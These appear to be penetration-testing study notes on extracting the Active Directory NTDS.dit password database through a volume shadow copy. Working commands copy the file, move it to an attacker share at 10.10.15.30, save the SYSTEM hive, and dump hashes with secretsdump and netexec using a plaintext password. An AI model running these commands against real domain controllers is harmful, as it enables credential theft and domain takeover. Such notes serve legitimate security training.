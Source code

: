 The`NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model)
### Shadow Copy
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location
```powershell
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit from the VSS
```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\ProgramData\NTDS.dit
```

Copy over to our machine
```powershell
cmd.exe /c move C:\ProgramData\NTDS.dit \\10.10.15.30\CompData 
```

```powershell
reg save hklm\system C:\Windows\system.bak
```

```powershell
secretsdump.py -ntds ntds.dit -system system.bak -hashes lmhash:nthash LOCAL
```
### Netexec 
```shell
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```